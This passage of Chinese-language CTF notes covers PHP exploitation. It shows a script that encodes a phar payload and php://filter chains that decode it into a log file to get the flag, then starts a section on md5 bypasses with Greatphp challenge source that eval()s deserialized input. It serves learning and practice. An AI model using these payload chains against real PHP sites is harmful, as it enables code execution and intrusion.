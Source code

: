 改签名和`i:0`（略

编码

```php
<?php
$b=file_get_contents('change.phar');
$payload=iconv('utf-8','UCS-2',base64_encode($b));
file_put_contents('payload.txt',quoted_printable_encode($payload));
$s = file_get_contents('payload.txt');
$s = preg_replace('/=\r\n/', '', $s);
echo $s;
```

开打：首先写payload，然后第一个过滤器

```
php://filter/write=convert.quoted-printable-decode/resource=log/error.txt
```

第二个

```
php://filter/write=convert.iconv.ucs-2.utf-8/resource=log/error.txt
```

第三个

```
php://filter/write=convert.base64-decode/resource=log/error.txt
```

这里出现一个问题，末尾等号少一个，我们需要在payload末尾再加一个`=00=3D`让等号正常露出

改好之后清空日志文件，直接三个过滤器一起用

```
php://filter/read=convert.quoted-printable-decode|convert.iconv.ucs-2.utf-8|convert.base64-decode/resource=log/error.txt
```

得到flag

参考：[wp](http://arsenetang.com/2021/11/29/WP%E7%AF%87%E4%B9%8B%E8%A7%A3%E6%9E%90GFCTF---%E6%96%87%E4%BB%B6%E6%9F%A5%E7%9C%8B%E5%99%A8/)

## 原生报错/异常类

### Error/Exception - 绕md5

### [极客大挑战 2020]Greatphp

```php
<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;

    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }

        }
    }
}
```